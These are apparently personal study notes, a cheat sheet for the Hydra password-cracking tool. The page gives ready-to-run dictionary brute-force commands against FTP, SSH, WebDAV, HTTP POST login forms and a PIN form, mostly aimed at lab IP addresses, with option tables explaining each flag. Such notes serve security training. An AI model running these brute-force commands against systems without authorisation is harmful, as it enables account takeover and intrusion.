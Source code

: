 ```yaml
---
{"dg-publish":true,"permalink":"/notes/hydra/"}
---
```


- Crack pass with pass dic
- Supports [[FTP\|FTP]], [[POP3\|POP3]], [[IMAP\|IMAP]], [[SMTP\|SMTP]], [[Notes/SSH\|SSH]], [[SMB\|SMB]] and all methods related to HTTP.

**General use**
```shell
hydra -f -V -t 64 -l <username> -P /usr/share/wordlists/rockyou.txt <IP> <service>
```

| Option                                                                                                                     | Description                                                   |
| -------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------- |
| `hydra -l username -P wordlist.txt server service`                                                                         | General command-line                                          |
| `hydra -l mark -P /usr/share/wordlists/rockyou.txt IP ftp`<br>`hydra -l mark -P /usr/share/wordlists/rockyou.txt ftp://IP` | E.g. ftp                                                      |
| `hydra -l <username> -P <wordlist> 10.10.181.239 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`        | Web form                                                      |
| `server`                                                                                                                   | hostname or IP address of the target server.                  |
| `service`                                                                                                                  | service which are trying to <br>launch the dictionary attack. |
| `-l`                                                                                                                       | Specifies the **single username** for login                   |
| `-L`                                                                                                                       | indicates a **list of users**                                 |
| `-p`                                                                                                                       | specifies the (SSH) **password** for login                    |
| `-P`                                                                                                                       | indicates a **list of passwords**                             |
| `-t 4`                                                                                                                     | sets the number of **threads** to spawn                       |
| `-s`                                                                                                                       | **port** number                                               |
| `-V`                                                                                                                       | Verbose for every attempt                                     |
| `-vV`                                                                                                                      | very verbose<br>shows login+pass for each attempt             |
| `-d`                                                                                                                       | Debugging                                                     |
| `-f`                                                                                                                       | stops Hydra after finding a working password                  |
| `http-post-form`                                                                                                           | the type of the form is POST                                  |
| `<path>`                                                                                                                   | the login page URL, for example, `login.php`                  |
| `<invalid_response>`                                                                                                       | part of the response when the login fails                     |
# Webdav
Brute force on the `webdav` subdir
```shell
hydra -L /usr/share/ -P <wordlist> IP_OR_DOMAIN http-get /webdav/
```
# Post Web Form
- Brute force web forms attack.
- You must know which type of request it is making; GET or POST methods are commonly used.
- You can use your browser’s network tab (in developer tools) to see the request types or view the source code.

**General use**
Against 1 user
```shell
hydra -f -V -t 64 -l <username> -P /usr/share/wordlists/rockyou.txt TARGET_IP_OR_DOMAIN http-post-form "/:username=^USER^&password=^PASS^:F=incorrect"
```
Both dictionaries
```shell
hydra -f -V -t 64 -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt TARGET_IP_OR_DOMAIN http-post-form "/:username=^USER^&password=^PASS^:F=incorrect"
```
Only a password is required
```shell
hydra -l '' -P 3digits.txt -f -v 10.10.180.149 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```
![Pasted image 20231206174317.png|700](/img/user/attachments/Pasted%20image%2020231206174317.png)
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    - `/login.php` is the page where the PIN code is submitted
    - `pin=^PASS^` will replace `^PASS^` with values from the password list
    - `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”

| Option           | Description                                                                              |
| ---------------- | ---------------------------------------------------------------------------------------- |
| `http-post-form` | Specifies the HTTP method to use                                                         |
| `-l ''`          | Indicates that the login name is blank as the security lock **only requires a password** |
| `/`              | The path of login subdirectory                                                           |
| `username`       | It's the form **field** where the username is entered                                    |
| `^USER^`         | The specified username(s) will **replace**                                               |
| `password`       | It's the form **field** where the password is entered                                    |
| `^PASS^`         | The provided passwords will be **replacing**                                             |
| `F=incorrect`    | **String** that appears in the server reply when the **login fails**                     |




---

